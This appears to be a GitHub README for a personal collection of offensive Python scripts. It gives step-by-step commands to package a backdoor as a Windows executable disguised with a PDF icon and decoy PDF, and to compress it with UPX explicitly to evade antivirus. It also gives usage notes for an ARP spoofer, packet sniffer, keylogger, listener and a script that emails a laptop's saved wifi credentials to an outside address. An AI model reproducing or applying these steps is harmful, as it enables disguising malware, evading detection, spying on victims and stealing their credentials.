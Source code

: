 # Python Scripts
A Collection of Python Scripts.

## Packaging

### Windows
- Install pyinstaller for python: ```python.exe -m pip install pyinstaller```
- Search pdf in [IconFinder](https://www.iconfinder.com/) to create an icon (size:128px & 512*\512) with PNG format
- Use [Convertor](https://www.zamzar.com/convert/png-to-ico/) to convert PNG to ICO (512\*512) & change the name to pdf.ico
- Convert to exe: ```pyinstaller.exe backdoor.py --onefile --noconsole --add-data "/root/Downloads/sample.pdf;." --icon /root/Downlaods/pdf.ico```
- To bypass AntiVirus, use [UPX](https://github.com/upx/upx) to compress exe file: ```./upx /root/PycharmProjects/backdoor/dist/backdoor.exe -o compressed_bacdoor.exe```

### Linux
- Install python for Windows inside Linux: ```wine msiexec /i python-2.7.14.msi```
- Install pyinstaller for python: ```wine /root/.wine/drive_c/Python27/python.exe -m pip install pyinstaller```
- Install all imported library: ```wine /root/.wine/drive_c/Python27/python.exe -m pip install pynput```
- Search pdf in [IconFinder](https://www.iconfinder.com/) to create an icon (size:128px & 512*\512) with PNG format
- Use [Convertor](https://www.zamzar.com/convert/png-to-ico/) to convert PNG to ICO (512\*512) & change the name to pdf.ico
- Convert to exe: ```wine /root/.wine/drive_c/Python27/Scripts/pyinstaller.exe backdoor.py --onefile --noconsole --add-data "/root/Downloads/sample.pdf;." --icon /root/Downlaods/pdf.ico```
- To bypass AntiVirus, use [UPX](https://github.com/upx/upx) to compress exe file: ```./upx /root/PycharmProjects/backdoor/dist/backdoor.exe -o compressed_bacdoor.exe```

## Usage

### Linux MAC Changer
```python linux_MAC_changer.py --interface eth0 --mac 12:11:11:11:11:11```
- First octet of the new MAC should be even (because of Unicast)

### Network Scanner
```python network_scanner.py --target 172.25.12.34/24```
- Use ```arp``` as a filter to check output in Wireshark

### ARP Spoofer
```python arp_spoofer.py --target 172.25.12.21 --gateway 172.25.12.1```
- Use ```echo 1 > /proc/sys/net/ipv4``` in attacker machine to route victim traffic to gateway

### Packet Sniffer
```python packet_sniffer.py --interface Ethernet```
- Use ```pip install scapy_http```
- Turn off all proxy
- Combine this script with Arp Spoofer

### ARP Spoof Detector
```python arp_spoof_detector.py```

### Wifi Passwords
```python packet_sniffer.py --interface Ethernet```
- Set "Less secure apps" for gmail account
- It will send all wifi credentials on laptop to an email address


### Key Logger
```python key_logger.py```
- Set "Less secure apps" for gmail account

### Listener
```python listener.py```
- Set attacker machine`a IP for my_listener object

### Backdoor
```python backdoor.py```
- Set attacker machine`a IP for my_backdoor object
- Use a sample pdf file to show to user


